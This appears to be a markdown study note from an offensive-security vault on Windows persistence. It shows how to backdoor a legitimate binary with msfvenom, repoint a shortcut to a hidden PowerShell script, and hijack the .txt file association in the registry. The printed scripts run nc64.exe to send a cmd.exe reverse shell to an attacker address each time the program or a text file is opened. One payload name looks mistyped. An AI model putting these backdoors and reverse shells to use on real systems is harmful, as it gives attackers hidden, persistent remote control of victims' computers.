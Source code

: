 ```yaml
---
category: Uncategorized
tags: []
---
```

### Executable Files
- Legit binary can be replaced with reverse shell. [Msfvenom](Msfvenom.md) can inject payload into a legit binary.
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/reverse_reverse_tcp LHOST=localhost LPORT=<port> -b "\x00" -f exe -o putty_x.exe
```
### Shortcuts
- Changing shortcut target to our reverse shell
- Point it to a script:
```powershell
# backdoor.ps1
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\calc.exe
```
- Shortcut target:
```powershell
powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor.ps1
```
### File Associations
- Registry stores key for every single file type under `HKLM\Software\Classes` which contains the ProgID.
- `ProgID` is the identified for the program that opens that file.
- Example:
```powershell
HKLM\Software\Classes\.txt -> txtfile (ProgID)
```
- `HKLM\Software\Classes` also has entry for the `txtfile` ProgID.
- Default command to run for the files is stored under `HKLM\Software\Classess\<progID>\shell\open\command`
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> %SystemRoot%\system32\notepad.exe %1
# %1 is the filename
```
- We can change this key to 
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor2.ps1
```
- backdoor2.ps1
```powershell
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\Notepad.exe $args[0]
```
- Opening a txt file will now trigger the reverse shell